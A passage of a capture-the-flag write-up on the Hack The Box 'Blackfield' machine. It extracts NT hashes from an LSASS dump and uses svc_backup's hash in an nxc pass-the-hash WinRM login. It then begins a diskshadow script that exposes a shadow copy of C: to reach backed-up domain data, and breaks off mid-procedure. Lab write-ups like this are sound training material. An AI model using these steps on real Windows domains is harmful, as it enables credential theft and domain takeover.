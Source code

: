 Grabbing this file and inspecting it, we find that its a lsass.dmp file.
![capture-9](capture-9.PNG)
Looking through with sublime, some users have a NT hash.
eventually, we find a administrator and svc_backup NT hash.
the administrator hash did not work, so we use the svc_backup and we are able to connect via win-rm.
```
svc_backup : 9658d1d1dcd9250115e2205d9f48400d 

.....

┌──(tsunami㉿coffee)-[~/Documents/blackfield/forensic]
└─$ nxc winrm -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d' -d 'blackfield.local' 10.129.147.254                
WINRM       10.129.147.254  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.129.147.254  5985   DC01             [+] blackfield.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

## svc_backup
![capture-12](capture-12.PNG)
Connecting via win-rm, we find a note in the `C:\` drive.
```
*Evil-WinRM* PS C:\> type notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```
This hints towards a backup-styled attack, checking our privileges, this confirms that.
![capture-13](capture-13.PNG)
We can create a .dsh file to create and expose a drive which holds the backup.
First, create the .dsh file on your Linux machine.
```
set context persistent nowriters
add volume c: alias blackfield
create
expose %blackfield% z:
```
Then use unix2dos on it.
```
┌──(tsunami㉿coffee)-[~/Documents/blackfield]
└─$ unix2dos black.dsh 
unix2dos: converting file black.dsh to DOS format...
```
